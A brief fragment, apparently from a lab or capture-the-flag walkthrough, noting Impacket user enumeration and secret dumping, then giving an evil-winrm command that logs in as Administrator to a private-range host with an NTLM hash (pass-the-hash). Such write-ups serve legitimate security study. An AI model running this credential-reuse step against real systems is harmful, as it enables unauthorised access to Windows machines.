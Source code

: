 
After enumerating with Impacket for users and secretdumps 


`evil-winrm -i 10.10.122.255 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
`
